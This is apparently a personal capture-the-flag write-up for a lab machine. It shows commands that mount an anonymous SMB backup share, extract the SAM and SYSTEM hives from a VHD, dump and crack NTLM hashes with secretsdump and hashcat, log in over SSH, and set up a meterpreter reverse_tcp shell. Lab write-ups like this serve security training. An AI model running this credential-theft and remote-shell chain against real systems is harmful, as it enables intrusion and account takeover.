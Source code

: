 - We find a full windows directory backup of `L4mpje`user in `Backups`SMB share
- Cannot download it as the file is too big (5.4 GBs), so let's mount it using :
	- `sudo mkdir /mnt/Bastion`
	- `sudo mount -t cifs -o username=anonymous //10.10.10.134/Backups /mnt/Bastion/`
- Then we can `guestmount`the `9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`file:
	- The guestmount program can be **used to mount virtual machine filesystems and other disk images on the host**
	- `sudo guestmount -a /mnt/Bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i /mnt/vhd`

# Dumping the SAM and SYSTEM file
---
- Now we have full access to `C:\Windows\System32\config`, s**o we can copy `SYSTEM`and `SAM`file**
	- `cp C:\Windows\System32\config\SYSTEM .`
	- `cp C:\Windows\System32\config\SAM .`
- Then just **dump** the hashes using `secretsdump`**:
	- `impacket-secretsdump -sam SAM -system SYSTEM LOCAL`
		- ![[Pasted image 20250421114659.png]]
- **Crack the NTLM hashes** using `hashcat`
	- ![[Pasted image 20250421114827.png]]
	- Note:- **Since Administrator never logged in, its password is empty**
	- `L4mpje`: `bureaulampje`
# Login using SSH
---
- We can login using ssh as `L4mpje`user:
	- `ssh L4mpje@10.10.10.134`
	- ![[Pasted image 20250421115011.png]]

# Get meterpreter shell
---
- Get meterpreter shell using `web_delivery`
	- `set payload windows/x64/meterpreter/reverse_tcp`
		- ![[Pasted image 20250421115817.png]]
	- ![[Pasted image 20250421115839.png]]
	
